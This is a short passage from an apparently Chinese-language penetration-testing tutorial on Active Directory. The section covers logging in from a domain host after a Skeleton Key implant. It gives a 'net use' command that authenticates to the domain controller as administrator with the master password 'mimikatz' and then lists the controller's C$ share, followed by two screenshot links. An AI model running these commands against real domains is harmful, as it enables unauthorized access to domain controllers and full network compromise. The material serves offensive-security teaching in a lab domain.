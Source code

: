 #### [](#222-%E5%9C%A8%E5%9F%9F%E5%86%85%E4%B8%BB%E6%9C%BA%E4%BD%BF%E7%94%A8-skeleton-key-%E7%99%BB%E5%BD%95)2.2.2 在域内主机使用 Skeleton Key 登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>net use \\dc.pentest.domain mimikatz /user:administrator@pentest.domain<br>dir \\DC.pentest.domain\c$<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208144833.png-water_print](assets/1699409504-c37743ccf52fdde7a8a17b32f644ea73.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208144833.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208150046.png-water_print](assets/1699409504-059c90bc35e904ae186d6fad9f4f5deb.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208150046.png-water_print")

